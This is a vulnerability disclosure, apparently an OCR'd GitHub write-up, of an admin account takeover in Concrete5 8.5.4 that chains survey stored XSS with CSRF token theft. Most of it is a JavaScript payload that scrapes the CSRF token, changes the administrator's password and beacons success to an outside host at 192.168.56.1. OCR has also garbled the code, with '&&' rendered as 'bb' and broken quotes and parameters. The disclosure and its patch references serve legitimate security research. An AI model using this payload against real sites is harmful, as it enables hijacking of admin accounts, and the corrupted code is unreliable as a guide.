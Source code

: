 # Survey XSS combined with CSRF leads to Admin Account Takeover in Concrete5 8.5.4
A Concrete CMS admin in versions below 9 did not have to provide their password when changing another user's password.

In combination with [CVE-2021-28145](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28145) ("Concrete CMS (formerly concrete5) before 8.5.5 allows remote authenticated users to conduct XSS attacks via a crafted survey block. This requires at least Editor privileges": fix was included in version 8.5.5.) it is possible for a low privileged User for example a developer or a public user who is able to create surveys to insert malicious javascript code into the web application. The results of surveys can be reviewd by an administrator in his web interface under Reports > Surveys. The malicious Javascript code gets there executed as well. Concrete5 does have a CSRF protection which can be bypassed very easily by stealing the corresponding Token from the Page before executing a request. As concrete5 does not ask for the old password when changing it. It is possible to change the administrator password very easily.


# Payload
```
var ccm_token = ";
var body = ";
var regex = /[0-9]{10}\:[a-f0-9]{32}/g;
var req = new XMLHttpRequest();
var req2 = new XMLHttpRequest(); 
req.open("GET","/concrete5-8.5.4/index.php/dashboard/users/search/view/1", true); 
req.setRequestHeader("X-Requested-With", "XMLHttpRequest");
req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
req. send(); 

req.onreadystatechange = function () { 
  if (req.readyState == 4 bb req.status == 200) { 
    body = req.responseText; 
    ccm_token = body.match(regex)[3];
   }
  }; 
setTimeout(() => { 
  confirm("Admin Account Takeover through XSS and CSRF Bypass in Concrete5 v.8.5.4 by Silky. CSRF Tok en: "+ccm_token); 
  req2.open("POST","/concrete5-8.5.4/index.php/dashboard/users/search/change_password/1", true);
  req2.setRequestHeader("X-Requested-With", "XMLHttpRequest");
  req2.setRequestHeader('Content-type', eapplication/x-www-form-urlencoded.);
  req2.send("ccm_token="+ccm_token+"&uPassword=Demonstration_by_SilkyEruPasswordConfirm=Demonstration_ by_Silkyt_ccm_consider_request_as_xhr=1"); 

req2.onreadystatechange = function () { 
  if (req2.readyState == 4 bb req2.status == 200) {
    body = req2.responseText;
    if (body.includes("Password updated successfully.")){
      console.log("Password updated successfully.");
      var myImage = new Image(0, 0);
      myImage.src = Ihttp://192.168.56.1:5686/Password_changed_successfullys;
     }
     else{
      console.log("Something went wrong");
     } 
   }
 } 
},2000); 

```




CVSS scores: 
* CVE-2021-40101 - 6.4 medium AV:N/AC:H/PR:H/UI:R/S:U/C:H/I:H/A:H
* CVE-2021-28145 - 5.4 medium CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N

Resulting in a final score of 
* 7.2 high

# References:
* https://hackerone.com/bugs?report_id=1065577
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40101
* https://youtu.be/w-B-j4NadDw
* https://github.com/concrete5/concrete5/pull/9707/commits/f6bb806acfdda22860133b9586df068d4e3909a7
